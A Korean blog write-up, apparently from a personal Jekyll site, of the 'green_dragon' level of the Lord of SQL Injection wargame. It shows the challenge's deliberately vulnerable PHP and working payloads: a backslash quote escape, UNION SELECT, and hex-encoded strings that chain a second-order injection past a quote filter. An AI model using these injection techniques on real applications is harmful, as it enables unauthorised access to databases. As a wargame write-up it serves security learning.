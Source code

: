```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - green_dragon 문제풀이"
excerpt_separator: <!--more-->
comments : true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다시  `los.rubiya.kr`의 서버로 돌아와서 다음 문제를 풀어보았다.  

드디어 `dragon` 시리즈의 시작이다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------
query : select id,pw from prob_green_dragon where id='' and pw=''
------------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysql_fetch_array(mysql_query($query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
?>
```

소스코드가 좀 길어졌다.  

쿼리가 2개가 있는데, 첫 번째 쿼리는 내가 입력한 `id`와 `pw`를 가지고 `prob_green_dragon` 테이블에서 값을 뽑아온다.  

그런데 이 후, 해당 테이블에서 추출 한 `id`와 `pw`를 가지고 다시 필터링을 거친 후에, 결과로 나왔던 그 `id`와 `pw`를 가지고 한번 더 쿼리를 수행한다.  

그래서 나온 결과값의 `id`의 값이 `admin`이라면 문제를 풀 수 있다.  

필터링에 `'(싱글쿼터)`가 있기 때문에 먼저 이를 우회해야 한다.  

이 전 문제에서 이와 유사한 문제가 있었기 때문에 아래와 같이 입력 해 필터링 우회를 시도 해 보았다.  

```
?id=\&pw= or id=0x61646d696e#
```

이를 입력하면 완성되는 쿼리는 아래와 같다.  

```
select id,pw from prob_green_dragon where id='\' and pw=' or id=0x61646d696e#'
```

때문에 `id`가 `\'and pw`이거나 `id`가 `0x61646d696e`인 값을 데이터베이스에서 찾아 추출하게 된다.  

그런데 아무리 해도 결과 값이 나오지 않았다.  

처음엔 내가 문제를 잘못푼 줄 알았는데, 다시 생각해보니 `$query2`의 존재가 의심스러웠다.  

만약에 내가 했던 방법으로 문제가 풀릴 거라면, `$query`에서 나온 결과값이 바로 데이터베이스에 저장되어 있던 `id`와 `pw`의 값이기 때문에 이에 대해 따로 필터링을 할 필요가 없을 것 같았다.  

또한 그 `id`와 `pw`로 다시 한 번 `select`를 하는 것은 무의미해 보였다.  

그러다보니 이 테이블이 비어있다고 생각하게 되었다.  

테이블에 아무런 값이 없으니 아무리 조건을 넣어도 추출 할 값이 없었던 것이다.  

그래서 두 쿼리를 거친 결과가 `select 'admin'`이 되면 문제를 풀 수 있을 것이라고 생각했다.  

일단 `$query2`를 출력시키기 위해 `id`에는 `\`를, `pw`에는 `union select 1, 2%23`를 입력 해 보았다.  

```
?id=\&pw=union select 1, 2%23
```

그 결과 아래와 같이 두 번째 쿼리가 출력되는 것을 확인할 수 있었다.  

```php
----------------------------------------------------------------------------------------------------------------
query : select id,pw from prob_green_dragon where id='\' and pw='union select 1,2#'
----------------------------------------------------------------------------------------------------------------

-----------------------------------------------------------------------------------------
query2 : select id from prob_green_dragon where id='1' and pw='2'
-----------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysql_fetch_array(mysql_query($query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
?>
```

예상대로 두 번째 쿼리에 1과 2가 들어갔다.  

그럼 이제 `union select 1, 2` 자리에 적당한 값을 넣어서 두 번째 쿼리가 `select admin`을 하도록 만들면 될 것 같다.  

그런데 `$result['id']`와 `$result['pw']`에 대해서도 같은 필터링이 걸려 있으므로 문자열은 사용할 수가 없고, 싱글쿼터를 우회해야 한다.  

그래서 두 번째 쿼리의 `id` 값에는 `\`가 들어가야 한다는 것을 쉽게 알 수 있다.  

이 때, `\`는 문자이기 때문에 `union select \, 2` 형태로 넣을 수 없기 때문에 `\` 또한 hex 값으로 바꾸어 넣어주어야 한다.  

문제는 `$result['pw']` 자리에 들어갈 내용이다.  

내가 만들고 싶은 두 번째 쿼리의 형태는 다음과 같다.  

```
select id from prob_green_dragon where id='\' and pw='union select 0x61646d696e#
```

그러면 뒤의 `union select 0x61646d696e`가 되어, 최종적으로 `admin`을 추출할 수 있게 된다.  

그런데 문제는 첫 번째 쿼리에서 뭐라고 입력해야 두 번째 쿼리에 내가 원하는 값을 넣을 수 있느냐는 것이었다.  

서버에서 테스트를 해 보았는데, 아래와 같이 입력하니 결과값을 얻을 수 있었다.  

```
mysql> select id, pw from user where id='\' and pw=' union select 1, (select 2);
+----+----+
| id | pw |
+----+----+
| 1  | 2  |
+----+----+
1 row in set (0.01 sec)
```

이를 그대로 넣으면, 두 번째 쿼리의 `pw` 자리에 `2`가 들어간다.  

그렇다면 `2`를 적절히 수정해서 `union select 0x61646d696e`를 만들면 된다.  

그런데 앞에서 말했다시피 싱글쿼터와 더블쿼터가 필터링 되어 있기 때문에 `hex`로 변경 해서 값을 넣어주어야 한다.  

`union select 0x61646d696e`를 하나하나 hex 값으로 바꾸면 `0x756e696f6e2073656c6563742030783631363436643639366523`이 된다.  

이 값을 아래와 같이 쿼리스트링으로 넘겨주었다.  

```
?id=\&pw= union select 0x5c, (select 0x756e696f6e2073656c6563742030783631363436643639366523)%23
```

역시 내 예상과 맞게 문제를 풀 수 있었다.  

```php
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
query : select id,pw from prob_green_dragon where id='\' and pw=' union select 0x5c, (select 0x756e696f6e2073656c6563742030783631363436643639366523)#'
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

------------------------------------------------------------------------------------------------------------------------------
query2 : select id from prob_green_dragon where id='\' and pw='union select 0x61646d696e#'
------------------------------------------------------------------------------------------------------------------------------

GREEN_DRAGON Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysql_fetch_array(mysql_query($query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
?>
```

`GREEN_DRAGON Clear!`
